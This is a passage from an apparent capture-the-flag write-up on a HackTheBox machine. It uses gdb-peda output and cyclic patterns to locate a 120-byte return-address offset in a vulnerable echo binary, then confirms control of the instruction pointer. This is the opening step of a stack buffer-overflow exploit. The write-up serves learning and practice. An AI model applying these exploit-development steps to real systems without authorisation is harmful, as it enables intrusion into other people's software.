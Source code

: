     [-------------------------------------code-------------------------------------]
       0x4011a1 <main+66>:  call   0x401030 <puts@plt>
       0x4011a6 <main+71>:  mov    eax,0x0
       0x4011ab <main+76>:  leave  
    => 0x4011ac <main+77>:  ret    
       0x4011ad:    nop    DWORD PTR [rax]
       0x4011b0 <__libc_csu_init>:  push   r15
       0x4011b2 <__libc_csu_init+2>:        mov    r15,rdx
       0x4011b5 <__libc_csu_init+5>:        push   r14
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdfb8 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0x7fffffffdfc0 ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0x7fffffffdfc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0x7fffffffdfd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0032| 0x7fffffffdfd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0040| 0x7fffffffdfe0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0048| 0x7fffffffdfe8 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0056| 0x7fffffffdff0 ("AuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x00000000004011ac in main ()



It's stuck on the `ret`, which is trying to move the top value on the
stack into RIP, but that value isn't a valid memory address, so it
throws a `SIGSEGV`.

I can now enter that pattern that's on the top of the stack to find the
offset:



    gdb-peda$ pattern_offset jAA9AAOA
    jAA9AAOA found at offset: 120



I can test by creating a new fill of 120, and then adding eight `b` at
the end:



    gdb-peda$ pattern_create 120     
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
    gdb-peda$ r                  
    Starting program: /media/sf_CTFs/hackthebox/safe-10.10.10.147/myapp 
    [Detaching after vfork from child process 15848]
     14:23:47 up 13 days,  2:08, 32 users,  load average: 1.49, 1.32, 1.15

    What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAbbbbbbbb
